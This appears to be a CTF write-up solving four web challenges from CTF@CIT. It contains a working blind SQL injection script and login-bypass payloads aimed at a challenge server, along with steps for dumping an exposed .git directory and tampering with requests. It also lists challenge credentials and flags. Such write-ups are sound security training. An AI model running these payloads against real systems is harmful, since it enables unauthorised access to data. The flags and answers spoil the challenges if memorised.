 ```yaml
---
title: 'CTF@CIT'
description: ''
date: 2025-05-02
image: './image.png'
---
```


# keeping up with the credentials

## Description

I'm all about strong passwords. If you're not using one, you're just playing yourself.

This challenge requires something that can be acquired in any of the other web challenges.

## Solution

Here we've been given with a website looking like this.

 ![](./img1.png)

Since we obtained the credentials of `admin:9f3IC3uj9^zZ` from @[breaking authentication](mention://575ed52d-d831-46b9-a70b-afad2ee03550/document/7bf4b60e-7a20-4606-9aa5-b092e8c12ebf) challenge, we try to login and we get to a debug page, which is not that useful.

Now usually when we login it's a `GET` request

 ![](./img2.png)

Let's just try changing that to a POST request, and it'll send a `302 found` of `/admin.php` and going to `/admin.php` we get the flag.

 ![](./img3.png)


# breaking authentication

## Description

"Say my username."

## Solution

Here we've been given with a website which looks like this.

 ![](./img4.png)

The first line of thought would be to do SQLi. So writing `admin' OR '1'='1` we get admin panel access but there's nothing there so go ahead and do blind SQLi.


Writing this script we find the tables in the database schema-

```python
import requests

url = "http://23.179.17.40:58001/"

# Query to extract all table names
query = "(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database())"

# Find the length first
k = 0
for i in range(1, 300):  # Tables might be many, increased range
    print("\r -> trying length ", i, end="")
    payload = '\' OR LENGTH(' + query + ') = \'' + str(i)
    data = {'username': 'admin', 'password': payload, 'login': 'Login'}
    r = requests.post(url, data=data, allow_redirects=True)
    if r.url.endswith("/admin.php"):
        print(f"\n[+] Found length of table names output: {i}")
        k = i
        break

if k == 0:
    print("[-] Length of response is greater than 300, adjust range")
    exit()

returnval = ""
q2 = '\' OR ASCII(SUBSTRING(' + query + ','

for i in range(1, k + 1):
    low = 32
    high = 126
    while low <= high:
        mid = (low + high) // 2
        # Prepare payload to check if character ASCII <= mid
        payload = q2 + str(i) + ",1)) <= '" + str(mid)
        data = {'username': 'admin', 'password': payload, 'login': 'Login'}
        r = requests.post(url, data=data, allow_redirects=True)

        if r.url.endswith("/admin.php"):
            # ASCII code is <= mid
            high = mid - 1
        else:
            # ASCII code is > mid
            low = mid + 1

    found_char = chr(low)
    returnval += found_char
    print(f"[+] Found character {i}: {found_char}")

print(f"\n[+] Final extracted table names: {returnval}")
```

The tables we find are `users` and `secrets`

In the secrets table, the columns are name and value, and altering the query to 

`query = "(SELECT GROUP_CONCAT(password) FROM users)"`

we get the flag: `CIT{36b0efd6c2ec7132}`

# commit & order: version control unit

## Description

In software development, the repository is represented by two separate yet equally important branches...

## Solution

Here we've been given a website which looks like this.

 ![](./img5.png)

Since it talks about commit order and version control, we proceed to `/.git/HEAD` endpoint giving another endpoint to `ref: refs/heads/master`

From here, we use `GitTools`, specifically `Dumper` to get all the folders from the site and `Extractor` to extract the source code prior to each commit.

After extracting, we see that there are 5 folders with their respective commits.

 ![](./img6.png)

We examine the source code for each of the folders and in the `commit: 1-68f8fc..` we see the source code:

```markup
<div class="warning-banner">
      <svg width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
        <path d="M1 21h22L12 2 1 21zm12-3h-2v2h2v-2zm0-8h-2v6h2v-6z" />
      </svg>
      This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
    </div> 
 </div>
```

We find a base64 encoded text and decoding it we obtain: `CIT{5d81f7743f4bc2ab}`

# how I parsed your JSON

## Description

"This is the story of how I defined your schema."

The flag is in secrets.txt

## Solution

Here we've been given a website which looks like this.

 ![](./img7.png)

This application uses `FlaskMyAdmin` which uses SQL like syntax, and our aim is to access secrets.txt.

In the site itself it defaults the `employee.json` table to `employee`. Hence to obtain the flag we'd have to intercept the request on Burp Suite and alter the request to access `/app/secrets.txt.txt`

 ![](./img8.png)
 Doing this we obtain the flag: `CIT{235da65aa6444e27}`
